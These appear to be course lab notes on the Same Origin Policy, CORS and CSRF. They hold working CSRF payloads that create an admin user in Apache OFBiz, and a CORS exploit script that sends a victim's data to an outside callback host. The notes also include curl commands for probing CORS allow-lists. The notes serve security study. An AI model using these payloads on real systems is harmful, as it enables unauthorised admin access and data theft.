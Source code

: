 ### Same Origin Policy 
SOP blocks JavaScript and our browsers from accessing cross-origin resources, but it does not block the outgoing requests for such resources、

if the cookie has SameSite=Lax, the browser will not send it even if the preflight request indicates that the destination server allows credentials on CORS requests.
```
URL	RESULT	REASON
https://foo.com/myInfo	Allowed	Same Origin
http://foo.com/users.json	Blocked	Different Scheme and Port
https://api.foo.com/info	Blocked	Different Domain
https://foo.com**:8443**/files	Blocked	Different Port
https://bar.com/analytics.js	Blocked	Different Domain
```
### curl requesting cors settings
```
curl -v -X OPTIONS http://192.168.154.155/exercise2
```
### Servers can set several headers1 to enable CORS
···
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
···
### CSRF(local test require apache2 service)
burp traffic of add user 
```
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```
Create html payload ofbiz.html
```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="test">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Use js to make request
```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
  function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>
```
### Trusting any domain 
```
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    Cookie: 'SessionCookie=1123581321345589144',
    credentials: 'include',
    Origin: 'hellocors'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.242/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
    console.log(data);
  });
}
get_code();
</script>
</head>
<body></body>
</html>
```
### Improper domain allow list
finding the allowed domain
```
curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
```
get the cookie
```
chrome access https://cors-sandbox/
dev tools - > network - cookies
```
get the flag 
```
curl -X "GET" -v -k -H "Origin: https://www.offensive-security.com" -H "Cookie: SessionCookie=1123581321345589144" https://cors-sandbox/exercise2
```
